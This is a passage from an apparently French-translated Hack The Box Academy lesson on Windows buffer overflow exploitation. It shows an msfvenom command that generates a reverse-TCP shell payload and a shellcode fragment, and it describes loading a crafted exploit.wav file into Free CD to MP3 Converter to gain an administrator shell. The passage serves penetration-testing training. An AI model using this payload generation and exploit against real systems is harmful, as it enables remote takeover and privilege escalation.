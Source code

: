 Nous pouvons utiliser la charge utile `windows/shell_reverse_tcp` comme suit :

```
dsgsec@htb[/htb]$ msfvenom -p 'windows/shell_reverse_tcp' LHOST=OUR_IP LPORT=OUR_LISTENING_PORT -f 'python'

...COUPER...
buf = b""
buf += b"\xd9\xc8\xb8\x7c\x9f\x8c\x72\xd9\x74\x24\xf4\x5d\x33"
...COUPER...

```

Nous pouvons remplacer le shellcode `buf` de notre exploit par l'un ou l'autre et le tester. Supposons que nous ayons accès à une machine sur laquelle nous avons le privilège d'exécuter ce programme en tant qu'administrateur. Nous allons écrire le shellcode pour l'élévation locale des privilèges dans notre exploit, générer notre fichier `exploit.wav` et le charger dans le programme :

![Administrateur CMD](https://academy.hackthebox.com/storage/modules/89/win32bof_cmd_admin.jpg)

Comme nous pouvons le voir, cette fois, une fenêtre `cmd.exe` est apparue, et nous voyons dans son titre `Administrator`, ce qui signifie qu'il s'exécute effectivement avec des privilèges élevés, correspondant à l'utilisateur qui exécutait `Free CD to MP3 Convertisseur`.

Essayez d'utiliser le second shellcode pour obtenir un reverse shell sur votre VM Linux/`PwnBox`.

Vous pouvez télécharger le code d'exploitation final à partir de [ce lien](https://academy.hackthebox.com/storage/modules/89/scripts/win32bof_exploit_py.txt). N'oubliez pas de le renommer `.txt` en `.py`.
